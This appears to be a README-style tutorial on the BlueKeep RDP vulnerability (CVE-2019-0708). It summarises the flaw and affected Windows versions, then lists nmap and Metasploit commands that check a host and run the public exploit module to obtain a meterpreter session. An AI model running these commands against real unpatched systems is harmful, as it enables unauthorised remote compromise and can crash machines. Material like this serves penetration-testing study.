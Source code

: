 <h1>CVE-2019-0708-BlueKeep</h1>
<hr>
<ul>
  <li>
    Bluekeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a windows syatem and consequently the network that the target system is a part of.
  </li>
  <li>
    The BlueKeep vulnerability was made public by Microsoft in May 2019.
  </li>
  <li>
    The BlueKeep exploit takes advantages of a vulnerability in the windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
  </li>
  <li>
    Microsoft released a patch for this vulnerability on May 14th,2019 and has urged companies to patch this vulnerability as soon as possible.
  </li>
  <li>
    At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
  </li>
  <li>
    The BlueKeep vulnerability affects multiple versions of windows:
    <ul>
      <li>XP</li>
      <li>Vista</li>
      <li>Windows 7</li>
      <li>Windows Server 2008 & R2</li>
    </ul>
    
  </li>
</ul>

</hr>
<h2>CVE-2019-0708-BlueKeep Exploit</h2>
<ul>
  <li>
    This BlueKeep Vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
  </li>
  <li>
    The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has and exploit module that can be used to exploit the vulnerability on unpatched systems.
  </li>
  <li>
    The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
  </li>
</ul>
Note: Targeting Kernel space memory and application can cause system crashes.
<hr>

<h3>Pratically</h3>
<ol>
  <li><code>nmap -p 3389 {ip}</code></li><br>
</ol>
<hr>
<span>check target is vulnerable to this vulnerable</span>
<ol>
  <li><code>msfconsole</code></li>
  <li><code>search BlueKeep</code></li>
  <li><code>use auxiliary/scanner/rdp/cve_2019_0708_bluekeep</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>run</code></li>

  Now we can know that the target is vulnerable to this vulnerability or not. If vulnerable move to exploit.
  </ol>
  <hr>
  <ol>
  <li><code>search BlueKeep</code></li>
  <li><code>exploit/windows/rdp/cve_2019_0708_bluekeep_rce</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>exploit</code></li>
  <li><code>Show targets</code></li>
  <li><code>set target 2</code></li>
  <li><code>exploit</code></li>
</ol>

